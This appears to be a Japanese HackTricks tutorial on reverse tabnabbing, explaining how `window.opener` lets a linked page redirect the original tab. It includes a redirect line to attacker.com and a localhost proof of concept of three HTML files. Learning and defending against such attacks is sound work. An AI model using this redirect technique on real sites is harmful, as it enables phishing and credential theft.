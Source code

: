 <details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションをご覧ください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)を**フォロー**してください。
* **ハッキングテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリに提出してください。

</details>


# 説明

**攻撃者**が**被害者**によってクリックされる**`target="_blank" rel="opener"`**属性を持つ**`<a`**タグの**`href`**引数を**制御**できる状況では、**攻撃者**はこの**リンク**を自分のコントロール下にあるWebページ（**悪意のある** **ウェブサイト**）に**向ける**ことができます。その後、**被害者**がリンクをクリックして攻撃者のウェブサイトにアクセスすると、この**悪意のある** **ウェブサイト**は**javascript**オブジェクト**`window.opener`**を介して**元のページ**を**制御**できるようになります。\
ページに**`rel="opener"`**がないが、`target="_blank"`を含んでおり、`rel="noopener"`を持っていない場合、脆弱性がある可能性があります。

この動作を悪用する通常の方法は、`window.opener.location = https://attacker.com/victim.html`を介して**元のWeb**の**場所を変更**し、**元のWeb**に似ている**攻撃者によって制御されるWeb**にリダイレクトし、ユーザーに資格情報を要求する**元のWeb**の**ログインフォーム**を**模倣**することです。

ただし、**攻撃者が今や元のWebサイトのウィンドウオブジェクトを制御できる**ようになったため、他の方法で**ステルス攻撃**を実行するためにそれを悪用することができます（おそらくjavascriptイベントを変更して情報を彼が制御するサーバーに送信するなど）。

# 概要

## バックリンクを使用した場合

予防属性が使用されていない場合の親ページと子ページ間のリンク：

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## バックリンクを使用しない場合

予防属性が使用されている場合の親ページと子ページ間のリンク：

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## 例 <a href="#examples" id="examples"></a>

以下のページをフォルダに作成し、`python3 -m http.server`でWebサーバーを実行してください\
その後、`http://127.0.0.1:8000/`vulnerable.htmlに**アクセス**し、リンクを**クリック**して、**元のウェブサイトのURLが変更**される方法に注意してください。

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## アクセス可能なプロパティ <a href="#accessible-properties" id="accessible-properties"></a>

異なるドメイン間でアクセスが発生するシナリオでは、**cross-origin**アクセスが発生し、悪意のあるサイトによってアクセスできる**opener** JavaScriptオブジェクト参照によって参照される**window** JavaScriptクラスインスタンスのプロパティは、以下に制限されます：

- **`opener.closed`**：このプロパティは、ウィンドウが閉じられたかどうかを判断するためにアクセスされ、ブール値を返します。
- **`opener.frames`**：このプロパティは、現在のウィンドウ内のすべてのiframe要素にアクセスを提供します。
- **`opener.length`**：現在のウィンドウに存在するiframe要素の数がこのプロパティによって返されます。
- **`opener.opener`**：現在のウィンドウを開いたウィンドウへの参照をこのプロパティを通じて取得できます。
- **`opener.parent`**：このプロパティは、現在のウィンドウの親ウィンドウを返します。
- **`opener.self`**：このプロパティによって現在のウィンドウ自体にアクセスできます。
- **`opener.top`**：このプロパティは、最上位のブラウザウィンドウを返します。

ただし、ドメインが同一の場合、悪意のあるサイトは[**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window) JavaScriptオブジェクト参照によって公開されるすべてのプロパティにアクセスできます。

# 予防方法

予防情報は[HTML5チートシート](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing)に文書化されています。

## 参考文献

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)
